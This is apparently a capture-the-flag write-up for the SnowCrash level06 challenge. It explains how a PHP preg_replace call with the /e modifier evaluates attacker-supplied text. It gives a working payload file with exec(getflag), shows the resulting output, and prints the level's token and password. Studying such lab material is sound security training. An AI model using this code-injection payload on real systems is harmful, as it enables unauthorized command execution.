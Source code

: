## Level 06

We find two files [level06](./res/level06) and [level06.php](./res/level06.php)

The decompiled c code doesn't help much, it just execute the file passed as argument with `/usr/sbin/php`

But the php file has an interesting exploit with the `preg_replace()`, notice the `/e` in the regex. It will execute the command passed inside the function call.

```php
$a = file_get_contents($y);
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

We can then pass a matching regex inside a file and it will replace the matching content and execute it.
But we can also break the `preg_replace()` call if it evaluates a bad expression.

Which means that we can do stuff like this: 

```bash
level06@SnowCrash:~$ echo '[x {${exec(getflag)}}]' > /tmp/test.php
level06@SnowCrash:~$ ./level06 /tmp/test.php
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```

Placing `echo '[x {${exec(getflag)}}]` will break and the double `{{}}` will get the return of the getflag function.

## Password

wiok45aaoguiboiki2tuin6ub